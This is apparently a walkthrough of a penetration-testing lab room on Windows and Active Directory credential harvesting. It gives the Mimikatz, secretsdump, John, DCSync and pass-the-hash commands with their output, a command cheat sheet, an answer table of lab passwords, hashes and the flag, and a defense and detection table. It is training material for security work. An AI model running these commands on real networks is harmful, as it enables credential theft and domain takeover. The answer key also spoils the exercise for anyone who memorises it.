


# Windows & Active Directory Credential Harvesting Guide
**Curriculum Track:** Jr Penetration Tester | **Module 14:** Active Directory Security Testing Basics

---

## 1. Room Overview

The **Intro to Credential Harvesting** room (Source Slug: `introtocredentialharvesting`) provides an in-depth, hands-on exploration of how operating system credentials, password hashes, and Kerberos tickets are cached, secured, and weaponized across Windows and Active Directory environments.

In offensive operations and penetration tests, gaining access to an entire enterprise rarely requires exploiting complex unpatched remote code execution flaws. Frequently, once an attacker secures a local administrative foothold on a single domain workstation, the primary escalation route is **Credential Harvesting**. By dumping local credential stores, extracting cached domain administrative sessions, and cracking offline hashes, an attacker can escalate horizontally and vertically to complete Domain Controller compromise. This room explores five primary credential stores:
1. **LSASS Process Memory:** The dynamic volatile RAM repository for NTLM hashes, Kerberos tickets, and plaintext passwords.
2. **SAM & SYSTEM Registry Hives:** The persistent local database containing local user account hashes.
3. **LSA Secrets:** The Windows registry repository storing Domain Cached Credentials (DCC2 / MS-Cache v2) and service account passwords.
4. **DPAPI Credential Vaults:** The user-level encrypted storage containing saved web browser credentials and RDP sessions.
5. **NTDS.dit (Domain Controller):** The central Active Directory database storing all enterprise user and computer secrets.

---

## 2. Learning Objectives

By completing this room and executing its attack chains, security practitioners master the following competencies:
- **Architectural Understanding of Windows Credential Stores:** Differentiate between ephemeral memory storage (LSASS), encrypted registry hives (SAM, SYSTEM, LSA Secrets), user DPAPI vaults, and the active directory database (NTDS.dit).
- **Post-Exploitation Harvesting with Mimikatz:** Enable debugging tokens (`privilege::debug`), extract memory secrets (`sekurlsa::logonpasswords`), and export decrypted browser vaults (`vault::cred /export`).
- **Remote Extraction via Impacket Secretsdump:** Extract local SAM hashes and cached domain credentials over SMB/RPC without dropping binaries on the target.
- **Offline Hash Cracking for MS-Cache v2 (DCC2):** Analyze PBKDF2-HMAC-SHA1 key derivation mechanics and crack cached hashes using John the Ripper (`--format=mscash2`).
- **Directory Replication Abuse via DCSync:** Leverage Domain Admin privileges to simulate Domain Controller replication using the DRSUAPI RPC protocol (MS-DRSR).
- **Pass-the-Hash (PtH) Lateral Movement:** Execute interactive shells on Domain Controllers using NTLM hashes via `psexec.py` without requiring plaintext passwords.

---

## 3. Architectural Topology & Lab Infrastructure

The target virtual laboratory is hosted within the `10.220.10.0/24` subnet, reachable through the OpenVPN client tunnel (`tun0`):



### Infrastructure Inventory & Harvested Credentials
- **Target Workstation (WRK):** `10.220.10.20` (Local Admin: `Administrator` / `N3w34829DJdd?1`)
- **Domain Controller (DC):** `10.220.10.10` (`DC.tryhackme.loc`)
- **Extracted Local User:** `ElonTusk` (Gmail password: `MyTusksAreThaB3st`)
- **Extracted Service Account:** `TRYHACKME\svc-app` (Password: `S3rv!c3Acc!`)
- **Cached Domain Admin (DCC2):** `TRYHACKME\drgonzo` (Cracked Password: `lasvegas1`)
- **Extracted Domain Administrator Hash:** `d71ee9fb6a3f54496bdc6c941f7a2903`
- **Captured Flag:** `THM{gotta_l0ve_cr3dential_st0res}`

---

## 4. Technical Background & Deep Dive

### Windows Credential Stores Comparison

| Store | Scope / Location | Stored Credential Types | Access Requirements | Primary Extraction Vectors |
|---|---|---|---|---|
| **LSASS Memory** | Volatile RAM (`lsass.exe`) | Plaintext passwords, NTLM hashes, Kerberos tickets | `SYSTEM` or `SeDebugPrivilege` | `mimikatz`: `sekurlsa::logonpasswords` |
| **SAM & SYSTEM** | On-Disk (`config\SAM`) | Local user NTLM hashes | Local Admin / `SYSTEM` / Backup rights | `reg save`, `secretsdump.py` |
| **LSA Secrets** | Registry (`HKLM\SECURITY`) | Cached domain logons (DCC2), Service passwords | `SYSTEM` (Token Elevation) | `mimikatz`: `lsadump::cache` |
| **DPAPI Vault** | User Profile (`%APPDATA%`) | Browser passwords, saved RDP connections | Session user or DPAPI MasterKey | `mimikatz`: `vault::cred /export` |
| **NTDS.dit** | Domain Controller (`NTDS`) | Entire Active Directory database | Domain Admin (via MS-DRSR) | `secretsdump.py -just-dc` |

---

## 5. Local Credential Extraction with Mimikatz

Connecting to Workstation `WRK` via RDP (`xfreerdp /u:Administrator /p:'N3w34829DJdd?1' /v:10.220.10.20`) and launching Mimikatz in an administrative prompt:

### 1. Extracting DPAPI Web Credentials Vault:
```text
mimikatz # vault::list
mimikatz # vault::cred /export
```
Output decrypted the saved browser credentials for user `ElonTusk`:
- **Resource:** `https://mail.google.com`
- **Identity:** `ElonTusk`
- **Password:** **`MyTusksAreThaB3st`**

### 2. Dumping In-Memory Passwords from LSASS:
Granting debug privilege and reading active logon sessions:
```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```
Under the Kerberos and WDigest authentication providers, the plaintext password for service account `svc-app` was uncovered:
- **Username:** `svc-app`
- **Domain:** `TRYHACKME`
- **Plaintext Password:** **`S3rv!c3Acc!`**

---

## 6. Remote Credential Extraction via Secretsdump & DCC2 Cracking

### 1. Harvesting SAM & LSA Secrets from Workstation WRK:
Executing Impacket's `secretsdump.py` over the network:
```bash
secretsdump.py WRK/Administrator:N3w34829DJdd?1@10.220.10.20
```
The output contained a Domain Cached Credentials (DCC2 / MS-Cache v2) hash for Domain Admin `drgonzo`:
```text
$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f
```

### 2. Offline DCC2 Hash Cracking with John the Ripper:
DCC2 uses `PBKDF2-HMAC-SHA1` with $10,240$ iterations and the lowercase username as salt. Cracking with `rockyou.txt`:
```bash
echo '$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f' > dcc2.txt
john --format=mscash2 dcc2.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
**Result:** Successfully recovered plaintext password:
$$\text{User: } \texttt{drgonzo} \quad | \quad \text{Password: } \texttt{lasvegas1}$$

---

## 7. Domain Escalation: DCSync Replication Attack

User `drgonzo` is a member of `Domain Admins`, holding directory replication rights (`DS-Replication-Get-Changes-All`).

### Executing DCSync via DRSUAPI:
Simulating directory replication against Domain Controller `10.220.10.10` using `secretsdump.py`:
```bash
secretsdump.py 'TRYHACKME/drgonzo:lasvegas1@10.220.10.10' -just-dc
```
The command extracted the entire `NTDS.dit` database secrets:
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d71ee9fb6a3f54496bdc6c941f7a2903:::
```
**Domain Administrator NTLM Hash:**
$$\texttt{d71ee9fb6a3f54496bdc6c941f7a2903}$$

---

## 8. Domain Controller Compromise via Pass-the-Hash (PtH)

Because the NTLM challenge-response authentication protocol uses the NTLM hash directly as the cryptographic key, the plaintext password is mathematically unnecessary.

Executing Pass-the-Hash with `psexec.py`:
```bash
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :d71ee9fb6a3f54496bdc6c941f7a2903
```
This spawns an interactive `NT AUTHORITY\SYSTEM` shell on the Domain Controller:
```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{gotta_l0ve_cr3dential_st0res}
```
**Captured Flag:** `THM{gotta_l0ve_cr3dential_st0res}`.

---

## 9. Comprehensive Attack Flow & Kill Chain



---

## 10. Defense, Hardening & Detection Strategies

| Defense Layer | Technical Hardening Control | Detection & Telemetry Mechanism |
|---|---|---|
| **LSASS Protection** | Enable `RunAsPPL` (Protected Process Light) and Windows Credential Guard. | Monitor Sysmon **Event ID 10** for `PROCESS_VM_READ` access to `lsass.exe`. |
| **Local Admin Defense** | Deploy **LAPS** (Local Administrator Password Solution) to eliminate shared passwords. | Audit administrative logons across multiple endpoints for password reuse. |
| **LSA Cache Hardening** | Set `CachedLogonsCount` to `0` or `1` in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`. | Monitor for offline logon anomalies in Windows security logs. |
| **DCSync Detection** | Restrict `Get-Changes` and `Get-Changes-All` rights strictly to Domain Controller accounts. | Audit directory access for **Event ID 4662** targeting directory replication GUIDs. |
| **PtH Mitigation** | Place Domain Admins into the `Protected Users` security group; disable NTLM where Kerberos is supported. | Alert on NTLM network authentications (**Event ID 4624 Type 3**) for privileged accounts. |

---

## 11. Tasks Summary & Answers Table

| Task # | Task Title | Question | Verified Solution | Verification Status |
|:---:|---|---|---|:---:|
| **01** | Introduction | I am connected to the network | `No answer needed` | Verified & Confirmed |
| **02** | Windows & AD Credential Stores | Which Windows component stores active NTLM and Kerberos credentials in memory? | `LSASS` | Verified & Confirmed |
| **02** | Windows & AD Credential Stores | What file in the C:\Windows\NTDS\ directory contains the AD database? | `ntds.dit` | Verified & Confirmed |
| **02** | Windows & AD Credential Stores | Which Mimikatz command exports DPAPI Vault credentials? | `vault::cred /export` | Verified & Confirmed |
| **03** | Credential Extraction With Mimikatz | What is Elon Tusk's Gmail password? | `MyTusksAreThaB3st` | Verified & Confirmed |
| **03** | Credential Extraction With Mimikatz | What is svc-app's password? | `S3rv!c3Acc!` | Verified & Confirmed |
| **04** | Harvesting With Secretsdump | What is drgonzo's password? | `lasvegas1` | Verified & Confirmed |
| **04** | Harvesting With Secretsdump | What is the domain Administrators NTLM hash? | `d71ee9fb6a3f54496bdc6c941f7a2903` | Verified & Confirmed |
| **04** | Harvesting With Secretsdump | What is the flag located on the domain admin's Desktop? | `THM{gotta_l0ve_cr3dential_st0res}` | Verified & Confirmed |
| **05** | Conclusion | Onto the next AD room! | `No answer needed` | Verified & Confirmed |

---

## 12. Tool Cheat Sheet & Command Quick Reference

```bash
# 1. Local Mimikatz Commands:
privilege::debug
vault::list
vault::cred /export
sekurlsa::logonpasswords
token::elevate
lsadump::cache

# 2. Remote Credential Dumping via secretsdump.py:
secretsdump.py WRK/Administrator:Password@10.220.10.20

# 3. Cracking DCC2 / MS-Cache v2 Hashes with John:
john --format=mscash2 dcc2_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# 4. Cracking DCC2 Hashes with Hashcat:
hashcat -m 2100 dcc2_hash.txt /usr/share/wordlists/rockyou.txt

# 5. DCSync Directory Replication Attack:
secretsdump.py 'TRYHACKME/drgonzo:lasvegas1@10.220.10.10' -just-dc

# 6. Pass-the-Hash Remote Execution via psexec.py:
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :d71ee9fb6a3f54496bdc6c941f7a2903
```

---

## 13. Practical Verification & Proof of Work

1. DPAPI vault decryption verified: `ElonTusk:MyTusksAreThaB3st`.
2. LSASS process memory extraction verified: `svc-app:S3rv!c3Acc!`.
3. Cached DCC2 hash cracked and validated: `drgonzo:lasvegas1`.
4. DCSync extraction confirmed: `Administrator:500:...:d71ee9fb6a3f54496bdc6c941f7a2903:::`.
5. Pass-the-Hash shell execution confirmed: `flag.txt` read yielding `THM{gotta_l0ve_cr3dential_st0res}`.

---

## 14. Key Takeaways & Operational Rules of Thumb

> **Rule of Thumb 1:** An NTLM hash is not a secret waiting to be reversed; in Windows authentication, it is functionally identical to the plaintext password (Pass-the-Hash).
>
> **Rule of Thumb 2:** Never allow Tier 0 Domain Administrators to log onto Tier 2 workstations. Once a privileged user logs in, their credentials remain extractable from LSASS memory or the LSA cache.
>
> **Rule of Thumb 3:** Deploy LAPS immediately. Standardizing local administrator passwords across endpoints guarantees rapid lateral movement once any single host is breached.
